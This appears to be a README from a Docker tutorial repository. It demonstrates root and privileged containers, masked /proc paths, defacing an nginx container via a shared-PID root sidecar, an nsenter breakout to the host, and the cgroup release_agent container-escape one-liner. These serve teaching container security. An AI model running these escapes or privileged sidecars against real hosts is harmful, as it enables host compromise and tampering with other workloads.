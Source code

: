 # Example 5 - Root user 
Demonstrate root user and privilege inside the container. 

TODO:
* try and nsenter into the host
* try and list all the host processes from inside the container.

Refer to [../13_users_and_permissions/README.md](../13_users_and_permissions/README.md) for more examples.  

## Script to follow
Demonstrate internal users and privilege 

### Build the image (root and user)
```sh
# build root
docker build --no-cache -t roottest -f root.Dockerfile .
# build myuser
docker build --no-cache -t usertest -f user.Dockerfile .
```

### Run as privileged (root)
```sh
# roottest
docker run -it --rm --privileged --entrypoint "/bin/bash" --name roottest roottest

# in container shell
whoami
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=roottest -q)

# "MaskedPaths": null,
# "ReadonlyPaths": null
```

### Run as privileged (user)
```sh
# usertest
docker run -it --rm --privileged --entrypoint "/bin/bash" --name usertest usertest

# in container shell
whoami
# even though privileged we can't 'cat timer_list'
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=usertest -q)

# "MaskedPaths": null,
# "ReadonlyPaths": null
```

### Run as non-privileged and inspect (root)
```sh
# roottest
docker run -it --rm --entrypoint "/bin/bash" --name roottest roottest

# in container shell
whoami
# does not list anything but works (masked path)
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=roottest -q)

# should see in output
"MaskedPaths": [
    "/proc/asound",
    "/proc/acpi",
    "/proc/kcore",
    "/proc/keys",
    "/proc/latency_stats",
    "/proc/timer_list",
    "/proc/timer_stats",
    "/proc/sched_debug",
    "/proc/scsi",
    "/sys/firmware"
],
"ReadonlyPaths": [
    "/proc/bus",
    "/proc/fs",
    "/proc/irq",
    "/proc/sys",
    "/proc/sysrq-trigger"
]
```
### Run as non-privileged and inspect (myuser)

```sh
# usertest
docker run -it --rm --entrypoint "/bin/bash" --name usertest usertest

# in container shell
whoami
# does not list anything but works (masked path)
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=usertest -q)

```

## Modify another container using sidecar rootuser
Start an nginx container
```sh
# start nginx
docker run --rm --name mynginx -p 8080:80 -d nginx 
open http://localhost:8080/

# open unprivileged non-root user sidecar
docker run -it --rm --pid=container:$(docker ps --filter name=mynginx -q) --entrypoint "/bin/bash" usertest
# Change the nginx static file (permission denied)
cat /proc/1/root/etc/nginx/nginx.conf

# open unprivileged root user sidecar (allows us to edit files)
docker run -it --rm --pid=container:$(docker ps --filter name=mynginx -q) --entrypoint "/bin/bash" roottest

# Change the nginx static file
cat /proc/1/root/etc/nginx/nginx.conf
cat /proc/1/root/etc/nginx/conf.d/default.conf
apt update
apt install nano
# edit the <h1>Welcome to hacked nginx!</h1>
nano /proc/1/root/usr/share/nginx/html/index.html
cat /proc/1/root/usr/share/nginx/html/index.html

open http://localhost:8080/
```

## Modify another container using privileged rootuser

```sh
# open privileged sidecar
docker run -it --rm --privileged --entrypoint "/bin/bash" roottest

# try and nsenter into the host
# try and list all the containers from inside.
```



## Get onto the docker desktop alpine host
```sh
# nsenter into the host docker alpine 
docker run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

Changing and reloading config
```sh
# We should also be able to change config and reload 
docker exec -it $(docker ps --filter name=mynginx -q) nginx -s reload  
docker stop mynginx 
```

## Escape the container
This will only work on Linux.  It doesn't work on Docker for Desktop.

**TODO** Can I use this to get access to another container filesystem without being in same namespace?  
[understanding-docker-container-escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)  
```
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps -aux >'"$t/o" >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```